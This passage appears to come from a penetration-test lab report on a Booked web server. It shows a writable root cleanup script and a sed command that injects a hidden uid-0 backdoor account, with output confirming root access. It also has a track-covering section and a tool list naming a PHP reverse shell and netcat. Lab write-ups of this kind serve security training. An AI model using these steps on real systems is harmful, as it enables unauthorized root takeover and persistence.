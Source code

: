 ```bash
drwxrwxrwx 13 www-data www-data   4096 Feb  5  2019 lib
-rw-rw-rw-  1 www-data www-data  35821 Feb  5  2019 License
drwxrwxrwx 12 www-data www-data   4096 Feb  5  2019 Pages
drwxrwxrwx  8 www-data www-data   4096 Feb  5  2019 plugins
drwxrwxrwx 12 www-data www-data   4096 Feb  5  2019 Presenters
-rw-rw-rw-  1 www-data www-data  31287 Feb  5  2019 readme.html
-rw-rw-rw-  1 www-data www-data  15536 Feb  5  2019 readme_installation.html
drwxrwxrwx 21 www-data www-data   4096 Feb  5  2019 tpl
drwxrwxrwx  2 www-data www-data   4096 Jul 11 17:32 tpl_c
drwxrwxrwx  3 www-data www-data   4096 Feb  5  2019 uploads
drwxrwxrwx 14 www-data www-data   4096 Jul 11 17:47 Web
drwxrwxrwx  6 www-data www-data   4096 Feb  5  2019 WebServices
```

```bash
cat /var/www/html/booked/cleanup.py

# output
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

```bash
sed -i "/os.system/a\        os.system('useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor')" cleanup.py
tail -n1 /etc/passwd
su victor # victor:password
id

# output
uid=0(root) gid=0(root) groups=0(root)
```

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* nmap
* smbclient
* smbmap
* searchsploit
* php-reverse-shell.php
* nc
* sed
